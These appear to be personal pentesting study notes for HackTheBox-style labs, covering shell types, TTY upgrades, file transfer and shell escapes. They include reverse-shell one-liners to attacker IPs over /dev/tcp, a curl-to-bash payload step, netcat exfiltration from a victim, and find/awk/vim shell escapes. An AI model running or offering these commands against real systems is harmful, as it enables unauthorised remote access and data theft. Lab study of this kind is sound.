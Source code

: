 ## Shell
Every operating system has a shell, and to interact with it, we must use an application known as a terminal emulator.
- Like Windows Terminal, PowerShell, Command Prompt, PuTTY, GNOME Terminal, and iTerm2 etc ...
- its also often possible to install a terminal emulator on other OS

### bin/bash vs bin/shell
- at bin/shell only $ is shown
- at bin/bash the whole path is shown

### Bad Shells
- sudo -l for example dont delvier anything
- some stuff is not working well
- can happen when over exploits etc
- no tty present

#### Reasons for bad shells
- wrong shell architecture x86 vs x64
- wrong shell type (bash, sh, zsh, etc.)
- shell over exploit, includes, etc.

### Good Shells
- sudo -l delivers something
- maybe even tab completion
- print 
- meterpreter shells are also nice often

### Upgrade a shell
- metersploit can do it
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) sometimes didnt work
```sh
# when commands are restricted
ssh guest@192.254.1.12 -t "bash --noprofile" # --noprofile can work

#curl a shell
echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/1338 0>&1'" > shell.sh
python3 -m http.server 8001
nc -lvnp 1338
curl 10.10.14.190:8001/shell.sh|bash

# phyton or phyton3 import pty
python -c 'import pty; pty.spawn("/bin/bash")'
#or 
echo os.system('/bin/bash') # or echo os.system('/bin/sh') 
#or
/bin/sh -i # or /bin/bash -i
```

### Transfer files
- httb, ftp, ssh, smb, scp, curl, wget, netcat etc
```sh
#http python server
python3 -m http.server 8000
wget http://yourip:8000/file

```
simple http put server to put from victim to attacker
- https://gist.github.com/fabiand/5628006
```sh
#windows to get a file from http server
certutil -urlcache -split -f "http://" outputfile

#curl or wget ftp or http
wget ftp:// 

#netcat
nc -l -p 1234 > out.file #receiving box
nc -w 3 [destination] 1234 < out.file #sending box destination is the ip of the receiving box

#scp
scp file user@ip:/path/to/file # sending
```

### Hosts File
echo to host file

```sh
cat

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

### Other Commands

#### whoami
```sh
whoami #print current user
```
#### uname
```sh
uname -a #print system information
```
#### get own ip
```sh
ip a | grep tun0 
```
#### ifconfig
```sh
ifconfig #print network information
```

#### pwd
```sh
pwd #print working directory
```

#### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

#### SU & Sudo
```sh
su otheruser #switch user
sudo -l #list sudo rights
sudo su #switch to root
```

#### Locate
Suchen von Dateien
```sh
locate PowerUp.ps1
```

#### arp
```sh
arp -e # get machines the target has spoken to
```



## Reverse shells Server
- Kali contains a share folder with shell scrips
- Shell from the target to the attacker.
- possible to connect throught firewall

#### Some Reverse Shell generators / links
- [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [High on Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Revshells](https://www.revshells.com/)

```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000
```

## Spawning interactive shells

```sh
# /bin/sh -i
/bin/sh -i
sh: no job control in this shell
sh-4.2$

# python
python -c 'import pty; pty.spawn("/bin/sh")' 

# perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh"; # should be run from a script.

# Ruby
ruby: exec "/bin/sh"  # should be run from a script.

# Lua
lua: os.execute('/bin/sh') # should be run from a script.

#AWK
awk 'BEGIN {system("/bin/sh")}'

# Find 
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# Vim To Shell
vim -c ':!/bin/sh'

# Vim Escape
:set shell=/bin/sh
:shell
```

## Execution permissions
### File Permission
```
ls -la <path/to/fileorbinary>
```
### sudo permissions
```
sudo -l
```